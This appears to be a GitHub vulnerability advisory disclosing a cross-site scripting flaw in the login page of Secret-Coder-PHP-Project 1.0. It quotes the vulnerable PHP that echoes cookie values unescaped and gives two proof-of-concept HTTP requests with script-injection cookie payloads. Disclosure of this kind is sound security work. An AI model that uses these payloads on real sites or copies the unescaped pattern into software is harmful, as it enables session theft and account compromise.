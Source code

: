 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Secret-Coder-PHP-Project 1.0](https://github.com/keerti1924/Secret-Coder-PHP-Project/) <br/>

**Affected Version**:
> keerti1924/Secret-Coder-PHP-Project 1.0

**Affected Site Page**: 
> /login.php<br/>

**Affected Code**: 
> <https://github.com/keerti1924/Secret-Coder-PHP-Project/blob/main/login.php> <br/>
```php
<input type="email" class="form-control" id="email" name="email"
placeholder="Email Address" value="<?php
if (isset($_COOKIE['emailcookie'])) {
    echo $_COOKIE['emailcookie'];
} ?>">
```

```php
<input type="password" class="form-control" id="password" name="password"
placeholder="Password" value="<?php
if (isset($_COOKIE['passwordcookie'])) {
    echo $_COOKIE['passwordcookie'];
} ?>">
```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Login page of Secret-Coder-PHP-Project is vulnerable to XSS by modifying cookies `emailcookie` and `passwordcookie` making the website vulnerable on 2 instances.

Option 1:
```http 
GET /login.php HTTP/2
Host: [REDACTED]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: emailcookie="><script>alert('reigz')</script>
```
![emailcookie](https://github.com/smurf-reigz/security/assets/48426940/c37efe3d-daca-4635-8202-c972795359b9)

Option 2:
```http 
GET /login.php HTTP/2
Host: [REDACTED]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: passwordcookie="><script>alert('reigz')</script>
```
![passwordcookie](https://github.com/smurf-reigz/security/assets/48426940/2043088d-1ef0-466a-b684-06f26e6b70a5)

## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
